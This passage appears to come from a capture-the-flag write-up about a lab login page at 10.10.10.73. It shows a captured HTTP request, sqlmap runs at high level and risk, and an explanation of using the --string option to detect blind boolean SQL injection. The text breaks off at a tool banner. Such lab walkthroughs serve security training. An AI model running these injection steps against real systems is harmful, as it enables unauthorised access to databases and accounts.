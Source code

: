 First, grab a request from burp, which we’ll save using the `copy to file`
option:

    
    
    root@kali# cat login-chris.request
    POST /login.php HTTP/1.1
    Host: 10.10.10.73
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.73/login.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 33
    Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    username=chris&password=chris
    

I started with the following command: `sqlmap -r login-chris.request --level 5
--risk 3 --batch`, but it didn’t result in any hits. At the end of a failed
run it returns this message:

    
    
    [22:18:32] [CRITICAL] all tested parameters do not appear to be injectable. Also, you can try to rerun by providing a valid value for option '--string' as perhaps the string you have chosen does not match exclusively True responses. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')
    

##### sqlmap –string

To test a blind injection, we can look for output on the page that changes
based on our input. We know the username field gives us “Try again” when the
name doesn’t exist, and “Wrong identification : admin” when the name does. If
you check out the man pages for `sqlmap`, the `--string` option says
“–string=STRING String to match when query is evaluated to True”. There’s also
a `--not-string`, which is when the query is false.

Because it’s clear that the site is first doing a query with just the
username, to see if it exists, before checking the password, that returns true
is the username exists. So if there username field is injectable, then we can
tell `sqlmap` to check that using the `--string` option.

    
    
    root@kali# sqlmap -r login-chris.request --level 5 --risk 3 --batch --string "Wrong identification"
            ___
           __H__
     ___ ___[)]_____ ___ ___  {1.2.5#stable}
    |_ -| . [(]     | .'| . |
    |___|_  [,]_|_|_|__,|  _|
          |_|V          |_|   http://sqlmap.org
    